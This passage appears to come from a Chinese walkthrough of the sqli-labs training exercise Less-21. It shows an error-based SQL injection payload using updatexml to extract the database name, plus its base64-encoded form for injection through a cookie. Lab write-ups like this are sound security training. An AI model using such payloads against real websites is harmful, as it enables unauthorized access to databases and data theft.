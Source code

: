 所以21关与20关的区别主要是<code>cookie</code>头有无<code>base64</code>编码的问题



+ 爆库名

~~~ shell
admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1
~~~

<code>base64</code>编码后

~~~ shell
YWRtaW4nIGFuZCB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpLDB4N2UpLDEpIGFuZCAnMSc9JzE=
~~~

![Less-21_3](./img/Less-21_3.PNG)
